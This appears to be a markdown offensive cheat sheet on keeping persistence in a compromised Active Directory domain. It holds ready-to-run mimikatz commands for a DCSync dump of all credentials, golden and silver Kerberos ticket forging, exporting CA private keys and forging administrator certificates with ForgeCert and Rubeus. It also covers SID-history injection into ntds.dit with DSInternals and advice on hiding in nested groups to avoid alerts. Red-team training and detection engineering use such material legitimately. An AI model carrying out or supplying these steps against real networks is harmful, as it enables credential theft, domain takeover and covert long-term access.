
# #Persistence with Credentials:
### The goal then is to persist with near-privileged credentials.
  - **Credentials that have local administrator rights on several machines**
  - **Service accounts that have delegation permissions**
  - **Accounts used for privileged AD services**

### there are many ways to dump credentials or hijack sessions.
for example:

## DCSync:
```
  - mimikatz # lsadump::dcsync /domain:<Domain-name> /all
```

# #Persistence with Tickets:
  - **Golden Tickets**
  - **Silver Tickets**

### Generate Golden Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/krbtgt** -The NTLM hash of the KRBTGT account.
  - **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)
  - **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
 - after executing this, the ticket is loaded into memory and we can access privileged resources in the domain

### Generate Silver Tickets:
```
  mimikatz # kerberos::golden /admin:<anyone> /domain:<Domain-name> /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
```
  - **/admin** - The username we want to impersonate. This does not have to be a valid user.
  - **/domain** - The FQDN of the domain we want to generate the ticket for.
  - **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.
  - **/sid** -The SID of the domain we want to generate the ticket for.
  - **/target** - The hostname of our target server. Let's do SERVERname.sub.DomainName.com, but it can be any domain-joined host.
  - **/rc4** - The NTLM hash of the machine account of our target. Look through your DC Sync results for the NTLM hash of SERVERname$. The $ indicates that it is a machine account.
  - **/service** - The service we are requesting in our TGS. CIFS is a safe bet, since it allows file access.
  - **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session, meaning it is ready to be used.
- after executing this, the ticket is loaded into memory and we can access a specific privileged resources in the domain


# #Persistence with Certificates:
  - **view the Stored certificates on the DC**
  ```
  mimikatz # crypto::certificates /systemstore:local_machine
  ```
  - **patch memory to make private keys exportable**
  ```
  mimikatz # crypto::capi
  mimikatz # crypto::cng
  ```
  - **Use mimikatz to Export the certificates:**
  ```
  mimikatz # crypto::certificates /systemstore:local_machine /export
  # now we have PFX or DER file
  ```
  - **if we have the private key and root CA certificate, we can forge a Client Authenticate certificate for any user we want.**
  ```
  ForgeCert.exe --CaCertPath Filename.pfx --CaCertPassword <filepassword> --Subject CN=User --SubjectAltName Administrator@<FQDN> --NewCertPath fullAdmin.pfx --NewCertPassword Password123
  ```
  - **We can use Rubeus to request a TGT using the certificate**
  ```
    Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<certFile> /password:<certFile-password> /outfile: /domain:<DomainName> /dc:<DC-IP>
  ```
  - **Use mimikatz to use TGT to Authenticate to LogonServer**
  ```
  mimikatz # kerberos::ptt administrator.kirbi
  mimikatz # exit
  # Done! we have the session.
  ```
  
  # #Persistence with SID History:
  ## Notes:
      - Since the SIDs are added to the user's token, privileges would be respected even if the account is not a member of the actual group
      - but our account can simply be a normal user account with membership only to the Domain Users group.
  ### operations:
      -  let's make sure that our low-privilege user does not currently have any information in their SID history
      ```ps1
        Get-ADUser <your ad username> -properties sidhistory,memberof
      ```
      - Let's get the SID of the Domain Admins group since this is the group we want to add to our SID History:
      ```ps1
        Get-ADGroup "Domain Admins"
      ```      
      - we will use the ![DSInternals](https://github.com/MichaelGrafnetter/DSInternals) tools to directly patch the ntds.dit file
      ```ps1
        Stop-Service -Name ntds -force
        Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit
        Start-Service -Name ntds
      ```
      
  # #Persistence with Group Memebership (Nested Groups):
  ## Notes:
  - Groups that provide local administrator rights are often not monitored as closely as protected groups. With local administrator rights to the correct hosts through group membership of a network support group, we may have good persistence that can be used to compromise the domain again.
  - It is not always about direct privileges. Sometimes groups with indirect privileges, such as ownership over Group Policy Objects (GPOs), can be just as good for persistence
  - This also becomes a monitoring problem. Let's say, for instance, we have an alert that fires off when a new member is added to the Domain Admins group. That is a good alert to have, but it won't fire off if a user is added to a subgroup within the Domain Admins group
  - Rather than adding ourselves to a privileged group that would raise an alert, we add ourselves to a subgroup that is not being monitored.
  
    
      
      
      
      
      
      
      
  
  
